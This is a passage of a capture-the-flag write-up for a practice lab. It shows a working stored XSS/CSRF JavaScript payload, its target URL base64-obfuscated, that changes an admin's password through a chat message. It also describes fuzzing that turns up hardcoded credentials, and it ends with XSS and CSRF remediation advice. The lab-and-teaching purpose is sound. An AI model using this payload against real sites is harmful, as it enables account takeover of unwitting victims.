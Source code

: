 I tried to change the password, but the website gave me a message that it was only available for admin.

After some time, I remembered a section from the CSRFv2 room. It was talking about getting access as a victim by making a victim change its password via CSRF.

I copied the payload and made some modifications.

"<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', atob('aHR0cDovL2xvZ2luLndvcmxkd2FwLnRobS9jaGFuZ2VfcGFzc3dvcmQucGhw'), true);
xhr.setRequestHeader("X-Requested-With", "XMLHttpRequest");
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.onreadystatechange = function () {
if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
alert("Action executed!");
}
};
xhr.send('action=execute&new_password=admin123');
</script>"

Basically, this script made a POST request to the base64 encoded URL I added below and adds admin123 to the new_password input. If the response was 200 OK, then alert will be displayed in the page.

http://login.worldwap.thm/change_password.php

Then, I pasted it to the chat message bar, and fortunately, it worked.

![image](https://github.com/user-attachments/assets/7f6db26b-8062-4fac-84b9-b29218f05009)

![image](https://github.com/user-attachments/assets/e96b4bf5-ccae-4bf3-92c8-b68922f6345c)

Password was changed, and it was time to log in as an admin.

![image](https://github.com/user-attachments/assets/b5d522db-6b9e-4a4b-ae97-9546f5f847cc)

![image](https://github.com/user-attachments/assets/f2df675f-bfa2-45f2-bbf9-b46c67b64361)

Here I got access as an admin, and the answer of the second question of the room.

3.2. Read admin.py under login.worldwap.thm

Because of the chatbot I found on the login.worldwap.thm, I thought maybe fuzzing with py extension could be a great way to find out how chat page was working.

![image](https://github.com/user-attachments/assets/0e256d77-469b-44d8-a746-55f36e7d97b9)

Of course, I got admin.py and test.py. I read both and found hardcoded credentials.

![image](https://github.com/user-attachments/assets/8786bc8b-fa92-469d-8bfc-a79c015afcad)

![image](https://github.com/user-attachments/assets/11042667-24c0-46db-bc0d-adb683d294d8)

◈ VULNERABILITY AND REMEDIATION

4.1. XSS
Validate Input — Accept only expected input formats.
Sanitize and Filter HTML — Use libraries to clean user HTML.
Escape Output — Encode data as HTML or URL before inserting into HTML, JS, or URLs.
Set Content Security Policy (CSP) — Restrict sources of executable scripts.
HTTPOnly Cookies — Prevent JS from accessing session cookies.
4.2. CSRF
Use CSRF Tokens — Generate a unique token per user/session and validate it on requests.
SameSite Cookies — Set SameSite=Strict or Lax on cookies to block cross-origin sending requests.
Check Referer/Origin Headers — Validate request headers to confirm the origin.
Require Re-authentication — For critical actions, ask the user to re-enter their password.
